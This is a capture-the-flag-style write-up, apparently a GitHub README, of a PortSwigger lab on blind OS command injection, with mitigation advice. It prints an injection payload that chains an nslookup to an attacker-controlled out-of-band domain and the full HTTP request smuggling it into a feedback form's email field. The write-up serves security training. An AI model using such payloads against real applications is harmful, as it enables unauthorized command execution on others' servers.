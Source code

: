 
# 💻 Blind OS Command Injection – Out-of-Band (OOB) Interaction

> 🧠 **Level**: Practitioner  
> 🌐 **Platform**: PortSwigger Web Security Academy  
> 👩‍💻 **Author**: Kaouthar Belkebir  
> 📆 **Challenge Day**: XX — Pentest Challenge  

---

## 🧩 Lab Description

This lab is vulnerable to **blind OS command injection**.  
It does not return output directly, but we can confirm code execution by triggering an **external interaction** (DNS request) through an attacker-controlled domain.

🎯 **Objective**:  
Exploit the feedback form to trigger a **DNS lookup** using `nslookup`, confirming that arbitrary commands are being executed server-side.

---

## 🧪 Exploitation Strategy

We inject a payload in the `email` field using the `||` operator and the `nslookup` command. This forces the server to resolve a domain we control.

### ✅ Confirming Execution:
When the injected command is executed, the server sends a DNS query to our listener (via [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or [OASTify](https://oastify.com)) — proving the injection worked.

---

## 🧠 Payload Used

```bash
||nslookup knboz2zho2fiavi6ozvjdr4phgn7byzn.oastify.com||
````

📝 This payload was injected in the `email` field of the feedback form.

---

## 📥 Full HTTP Request

```http
POST /feedback/submit HTTP/2
Host: 0a62007104e6f079838356e400f500f3.web-security-academy.net
Cookie: session=fXswci9zJWC3YE5TIZxpcWdVN6hu4T9J
Content-Type: application/x-www-form-urlencoded

csrf=bEZxAEYy843gXvC0zSwroABQUmqUKmNU&
name=helio&
email=hack@gamil.com||nslookup knboz2zho2fiavi6ozvjdr4phgn7byzn.oastify.com||&
subject=hackeme&
message=hackinggg-dns
```

---

## 🧬 Why This Works

The server concatenates the `email` input into a shell command. Since the input is not sanitized, the `||` operator allows us to **chain and execute arbitrary commands**.

`nslookup` sends a DNS request to our controlled domain, which we can observe.

---

## 📸 Screenshot (Proof of Concept)

![OOB Interaction Confirmed](https://github.com/Kabilala/OS-command-injection/blob/main/lab4/lab4.png)

📍 The screenshot shows the DNS request received by `portswigguer`, confirming execution.

---

## 🛡️ Mitigation Techniques

* ✅ Avoid shell invocation with unsanitized user input
* ✅ Use safe APIs (`execFile`, parameterized commands)
* ✅ Implement strict input validation and allow-lists
* ✅ Monitor for unusual outbound traffic (like OOB DNS queries)

---

## 🔚 Conclusion

This lab demonstrates how **blind OS command injection** can still be detected and exploited using **out-of-band interactions**.
OOB payloads are crucial when there’s **no direct feedback** from the application.

---

### 📂 Repo Structure

```
.
├── README.md
├── images/
│   └── lab4-oob-confirmed.png
```


```

